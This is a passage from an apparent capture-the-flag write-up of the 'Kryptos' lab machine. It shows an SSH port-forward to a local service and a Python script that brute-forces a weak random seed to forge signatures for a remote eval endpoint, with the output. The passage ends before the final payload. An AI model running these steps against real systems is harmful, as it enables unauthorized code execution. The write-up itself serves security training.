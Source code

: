 ```creds.txt``` is a VimCrypt02 file. This file has been encrypted with Blowfish, which is a block-cypher vulnerable from plain-text attacks as well. The file ```creds.old``` makes us suspect that ```creds.txt``` has the same structure, so we could know the first part of it, ```rijndael / ```. 
	run(host='127.0.0.1', port=81, reloader=True)

On the last row, it sets up a server on port 81. By checking with ```netstat```, we got a confirmation:

	rijndael@kryptos:~$ netstat -ntlp
	(Not all processes could be identified, non-owned process info
	 will not be shown, you would have to be root to see it all.)
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
	tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
	tcp        0      0 127.0.0.1:81            0.0.0.0:*               LISTEN      -
	tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
	tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
	tcp6       0      0 :::80                   :::*                    LISTEN      -
	rijndael@kryptos:~$ 

To allow more extensive tests, we download the script in local and forward port 81 on our attacker machine:

	root@pentestbox:~# ssh -N -f -L 81:127.0.0.1:81 rijndael@10.10.10.129

In the source code, it is possible to see that there are three APIs exposed:

- ```GET /``` which don't produce valuable output;
- ```GET /debug``` which produces a signature from a sample expression;
- ```POST /eval``` which allows us to pass an expression and its signature, to evaluate the signature first and if matches, executes it.

This will be our attack vector. First, we have to understand how to generate valid signatures for a given expression and second we have to find a way to execute code. By inspecting the code, it is written that the function ```secure_rng(seed)``` should be secure. By Googling, we found out that the ```random.getrandbits(int)``` function [is not good for security purposes](https://docs.python.org/2/library/random.html). Therefore, we try to break the ```secure_rng(seed)``` function:

	for i in range(0,2000): 
	    # Set up the keys
	    seed = random.getrandbits(128)
	    rand = secure_rng(seed) + 1
	    sk = SigningKey.from_secret_exponent(rand, curve=NIST384p)
	    vk = sk.get_verifying_key()
	    req_data = { 'expr': '2+2', 'sig': sign(str.encode('2+2')) }
	    r = requests.post("http://127.0.0.1:81/eval", json=req_data)
	    if "Bad signature" in r.text:
	        print "Seed not found yet..."
	    else:
	        print "Seed found!"
	        print seed
	        break

After some minutes, we get the seed:

	...
	Seed not found yet...
	Seed not found yet...
	Seed not found yet...
	Seed found!
	41205234917818974876430183060164741391
	root@pentestbox:~# 

We have to create now a proper payload for our attack.

```